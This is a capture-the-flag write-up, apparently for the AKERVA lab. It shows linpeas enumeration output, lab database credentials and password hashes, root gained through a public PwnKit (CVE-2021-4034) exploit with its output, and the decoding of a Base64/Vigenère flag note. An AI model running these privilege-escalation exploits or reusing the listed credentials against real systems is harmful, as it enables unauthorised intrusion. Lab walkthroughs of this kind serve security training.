Now that we have a working shell and we are logged in as the only user AAS we have to find a way to  escalate our priviledges to ROOT!

To make my life easier I will upload linpeas.sh on the machine and go thru a exaustive PE enumeration!

I will upload only the relevant stuff here:

```Bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                   
Sudo version 1.8.21p2       

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                                                                
cat: write error: Broken pipe                                                                                                                                                                                     
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

[+] [CVE-2017-0358] ntfs-3g-modprobe

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1072
   Exposure: less probable
   Tags: ubuntu=16.04{ntfs-3g:2015.3.14AR.1-1build1},debian=7.0{ntfs-3g:2012.1.15AR.5-2.1+deb7u2},debian=8.0{ntfs-3g:2014.2.15AR.2-1+deb8u2}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/41356.zip
   Comments: Distros use own versioning scheme. Manual verification needed. Linux headers must be installed. System must have at least two CPU cores.


╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                                           
                                                                                                                                                                                                                  
╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.                                                                                                                     
apparmor module is loaded.
═╣ AppArmor profile? .............. unconfined
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found                                                                                                                                                          
═╣ PaX bins present? .............. PaX Not Found                                                                                                                                                                 
═╣ Execshield enabled? ............ Execshield Not Found                                                                                                                                                          
═╣ SELinux enabled? ............... sestatus Not Found                                                                                                                                                            
═╣ Seccomp enabled? ............... disabled                                                                                                                                                                      
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (vmware)              

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                     
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      759/bash                                                                                                                          
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -        

══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 42 Dec  6  2019 /etc/apache2/.htpasswd                                                                                                                                                     
aas:$apr1$a1aqCzW8$hsRSvlom8SfX/R5Dql4CZ0

╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-rw-rw- 1 www-data www-data 3244 Feb 10  2020 /var/www/html/wp-config.php                                                                                                                                      
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'ZokDHE_DJ_____enzU)=' );
define( 'DB_HOST', 'localhost' );
```

Ok we found something, let's start by tryng to find AAS password from that hashed value in .htpasswd

During the cracking time I decided to enumerate the Wordpress DB and found out the hash of the AAS password:

```BAsh
mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+--------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url           | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------------------+--------------------+---------------------+---------------------+-------------+--------------+
|  1 | aas        | $P$BLMt5iPnAcozywrfRPNsEeVkWvlt7v1 | aas           | lylefebvre.infosec@gmail.com | http://10.13.37.11 | 2020-02-08 14:17:28 |                     |           0 | aas          |
+----+------------+------------------------------------+---------------+------------------------------+--------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

mysql>
```

I will run a cracking of that Wordpress password in background.

Here we have several ways on how to become root, one is by exploiting that old version of sudo with [this](https://www.exploit-db.com/exploits/47502).

Another is to use [PWNKIT](https://www.exploit-db.com/exploits/50689) or Baron SAMEDIT.

* * *

## Root time!

I will start by using the sudo exploit to gain root!

The first one(bash) seems like it's not working so I will move on with PWNKIT one instead also known as CVE-2021-4034. The exploit I used was: https://github.com/joeammond/CVE-2021-4034

And just simply running a python payload it elevate us to Root:

```Bash
-rw-rw-r--  1 aas  aas     0 Jul 26 15:21 priv
aas@Leakage:/tmp/YOVECIO$ python CVE-2021-4034.py
python CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
id
uid=0(root) gid=1000(aas) groups=1000(aas),24(cdrom),30(dip),46(plugdev)
#
```

And doing so we can grab the seventh flag:



And guess the last one will be in that secure note:

```Bash
# cat secured_note.md 
cat secured_note.md
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK

@AKERVA_FR | @lydericlefebvre
#
```

Ok this seems like an encoded text, let's use cyberchef to decode it.

Now here I had to check for some tips and apparently seems like I was right that first is B64 encoded:



Then checking the result again seems like it's a Vigene crypto:



Now we could use dcode.fr, and trying to guess the plaintext word "AKERVA":



We stil get to much jibberish, so someone on forum tipsed to check for missed chars..

So checking manually for what chars are missing:









Now what we have the missing chars we can adjust the alphabet string:



Now it get's decoded by using the "ILOVESPAC...." key, could be ILOVESPACE the encryption key?



Indeed now it's working..

And using the last part with ARKEVA{XXXXX} indeed closes the circle!